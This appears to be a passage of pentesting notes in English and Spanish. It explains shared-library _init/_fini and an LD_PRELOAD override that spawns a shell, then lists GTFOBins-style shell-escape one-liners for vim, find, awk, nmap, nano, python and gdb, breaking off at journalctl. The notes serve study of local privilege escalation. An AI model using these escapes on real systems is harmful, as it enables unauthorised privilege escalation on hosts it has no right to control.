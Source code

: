 An older technique for shared library initialization and finalization is to create two functions, _init() and _fini(), as part of the library. The void _init(void) function contains code that is to executed when the library is first loaded by a process. The void _fini(void) function contains code that is to be executed when the library is unloaded. If we create _init() and _fini() functions, then we must specify the gcc –nostartfiles option when building the shared library, in order to prevent the linker from including default versions of these functions. (Using the –Wl,–init and –Wl,–fini linker options, we can choose alternative names for these two functions if desired.) Use of _init() and _fini() is now considered obsolete in favor of the gcc constructor and destructor attributes, which, among other advantages, allow us to define multiple initialization and finalization functions.

Environment variables such as `LD_PRELOAD` are inherited by child processes. The linked example overrides the `_init` symbol to invoke a shell using system("/bin/bash"). If the environment variable would not have been cleared, then it would effectively be stuck in an "infinite loop" when invoking `system`.

If you watch your process list (using `ps aux` for example), you will see a bunch of shell processes. The system library function creates a new process and executes `/bin/sh -c "...."`. Every time, `_init` is executed.



##### Shell Escape Sequences

Web de referencia: GTFOBins https://gtfobins.github.io

Algunos programas nos permiten "escapar" a la shell o abusar de ciertas funcionalidades:

- vim/vi/man/less/more/GDB/iftop
  !sh

+ ftp
  !

* find
  find /bin -name nano -exec /bin/sh \;

+ awk
  awk 'BEGIN {system("/bin/sh")}'
+ nmap
  echo "os.execute('/bin/sh')" > shell.nse
  nmap --script=shell.nse
+ nano
  nano -sh /bin/sh
  sh
  ^T
+ Python
  python -c 'import pty; pty.spawn("/bin/sh")'
  python -c 'import os; os.system("/bin/bash")'

- except
  except spawn

- gdb
  gdb
  (gdb)!/bin/bash

- Journalctl
